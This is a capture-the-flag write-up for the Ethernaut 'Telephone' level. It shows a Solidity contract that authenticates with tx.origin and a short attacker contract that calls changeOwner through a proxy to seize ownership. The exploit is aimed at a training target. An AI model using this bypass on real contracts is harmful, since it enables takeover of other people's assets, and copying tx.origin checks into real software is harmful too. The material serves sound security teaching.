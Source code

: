 ## Ethernaut Level 04 - Telephone - Write-Up
<!--Authors: OofedUp-->

Difficulty: 1/10

![image](https://i.imgur.com/5CnRjQc.png)

## Source
```javascript
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

We just need to call the `changeOwner()` function from a contract, since `tx.origin` does not detect the sender address if it is coming from a contract. We will use [Remix](https://remix.ethereum.org) where we can create the following contract:

```javascript
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract DialUp {
    Telephone main;

    function DialUp(){
        main = Telephone(INSTANCE ADDRESS);
    }
    function setOwner() public{
        //Player address
        main.changeOwner(PLAYER ADDRESS);
    }
}
```

We then change the owner to the player's address by calling `DialUp.setOwner()`. We can then submit the contract:

![image](https://i.imgur.com/be9wemr.png)
